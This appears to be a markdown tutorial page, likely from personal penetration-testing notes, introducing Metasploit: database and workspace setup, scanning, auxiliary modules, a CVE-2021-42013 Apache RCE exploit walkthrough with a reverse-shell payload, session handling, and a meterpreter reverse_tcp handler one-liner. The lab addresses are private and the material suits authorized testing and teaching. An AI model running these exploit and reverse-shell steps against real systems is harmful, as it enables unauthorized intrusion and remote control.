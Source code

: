 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 101

## Setup

### Database

**Metasploit Framework (MSF)** in Kali Linux doesn't start its database (PostgreSQL) by default, but it’s useful for storing target data and tracking exploits.

```bash
# Initialize database
sudo msfdb init

# Start PostgreSQL service
sudo service postgresql start

# Launch MSF Console
sudo msfconsole -q

# Check database connection
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

### Workspaces

MSF uses **workspaces** to separate different tests and avoid data mix-up.

```bash
# Check current workspace
msf6 > workspace

# Create a new workspace
msf6 > workspace -a test_ws
[*] Added workspace: test_ws

# Switch to a specific workspace
msf6 > workspace test_ws
[*] Workspace: test_ws

# Check current workspace again
msf6 > workspace
  default
* test_ws
```

Scan results will now be saved in the selected workspace.

```bash
# Scan target
msf6 > db_nmap -A 192.168.50.202

# List discovered hosts
msf6 > hosts

# List discovered services
msf6 > services

# List hosts with port 445 (e.g., SMB service)
msf6 > services -p 445
```

## Modules

MSF includes **modules** for various purposes, categorized for ease of use.

```bash
# List module categories
msf6 > show -h
```

### Auxiliary

**Auxiliary modules** perform tasks like scanning, fuzzing, and enumeration.

```bash
# List all auxiliary modules
msf6 > show auxiliary

# Filter modules by type
msf6 > search type:auxiliary smb

# Filter by name (e.g., SMB version scanner)
msf6 > search smb_version

# Use a specific module
msf6 > use 0

# View module info
msf6 auxiliary(scanner/smb/smb_version) > info

# List module options
msf6 auxiliary(scanner/smb/smb_version) > show options

# List required options
msf6 auxiliary(scanner/smb/smb_version) > show missing

# Set required options
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.50.202

# Run module
msf6 auxiliary(scanner/smb/smb_version) > run
```

### Exploit

**Exploit modules** in MSF target specific vulnerabilities in applications or services. Key Features:

* **Database Integration**: Automatically tracks targets, services, and vulnerabilities.
* **Reliability**: Repeatable sessions for stable access.
* **Payload Flexibility**: Users can select payloads based on the exploit.

{% code overflow="wrap" %}
```bash
# Create a workspace for exploits
msf6 > workspace -a exploits
msf6 > workspace exploits

# Set target host
msf6 > setg RHOSTS 192.168.225.16

# Search for CVE-2021-42013 exploit
msf6 > search CVE-2021-42013

# Select exploit module
msf6 > use 0

# Configure payload and options
msf6 exploit(multi/http/apache_normalize_path_rce) > set LHOST 192.168.45.242
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload linux/x64/shell_reverse_tcp

# Run exploit
msf6 exploit(multi/http/apache_normalize_path_rce) > run
```
{% endcode %}

## Sessions & Jobs

**Sessions** manage interactions with successfully exploited targets. **Jobs** run in the background.

```bash
# Background the current session
^Z
Background session 1? [y/N] y

# List active sessions
msf6 > sessions -l

# Interact with a session
msf6 > sessions -i 1

# Close a session
msf6 > sessions -k 1
```

## Inline Commands

{% code overflow="wrap" %}
```bash
$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.45.157; set LPORT 9999; exploit -j"
```
{% endcode %}
